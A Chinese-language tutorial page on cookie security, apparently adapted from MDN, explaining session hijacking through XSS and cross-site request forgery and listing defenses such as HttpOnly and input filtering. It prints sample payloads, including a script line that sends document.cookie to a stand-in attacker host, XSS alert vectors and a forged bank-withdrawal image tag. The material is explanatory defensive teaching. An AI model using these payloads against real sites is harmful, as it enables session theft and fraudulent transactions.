 ```yaml
---
title: 安全
date: 2020-7-7
lang: 'zh-CN'
sidebar: 'auto'
categories:
 - JS
tags: 
location: HangZhou
---
```


# Heading
[[toc]]

::: warning
当机器处于不安全环境时，切记不能通过HTTP Cookie存储、传输敏感信息。
:::

## 会话劫持和XSS
在Web应用中，Cookie常用来标记用户或授权会话。因此，如果Web应用的Cookie被窃取，可能导致授权用户的会话受到攻击。常用的窃取Cookie的方法有利用社会工程学攻击和利用应用程序漏洞进行XSS攻击。
```javascript
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
<body onload="alert('test1')"/>
<img src="http://url.to.file.which/not.exist" onerror="alert(document.cookie);">
<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgndGVzdDMnKTwvc2NyaXB0Pg"/>
```
HttpOnly类型的Cookie由于阻止了JavaScript对其的访问性而能在一定程度上缓解此类攻击。

## 跨站请求伪造（CSRF）
维基百科已经给了一个比较好的CSRF例子。比如在不安全聊天室或论坛上的一张图片，它实际上是一个给你银行服务器发送提现的请求：
```javascript
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```
当你打开含有了这张图片的HTML页面时，如果你之前已经登录了你的银行帐号并且Cookie仍然有效（还没有其它验证步骤），你银行里的钱很可能会被自动转走。有一些方法可以阻止此类事件的发生：
- 对用户输入进行过滤来阻止XSS；
- 任何敏感操作都需要确认；
- 用于敏感信息的Cookie只能拥有较短的生命周期；
- 更多方法可以查看[OWASP CSRF prevention cheat sheet](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet)。

>https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Cookies

## more
[Cross-site Scripting (XSS)](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))

[Cross-Site Request Forgery (CSRF)](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_%28CSRF%29)
